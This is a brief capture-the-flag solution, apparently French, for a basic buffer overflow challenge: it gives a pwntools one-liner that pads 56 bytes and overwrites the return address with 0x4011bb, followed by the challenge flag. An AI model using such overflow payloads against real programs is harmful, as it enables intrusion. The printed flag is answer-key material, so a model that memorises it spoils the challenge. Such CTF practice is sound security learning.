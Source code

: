 un Simple bufferoverflow a vous de trouver comment afficher le taff

python2 -c "from pwn import *; print('A'*56+p64(0x00000000004011bb))"
CYBERTF{B@sic_Buff3r_Ov3rflow}

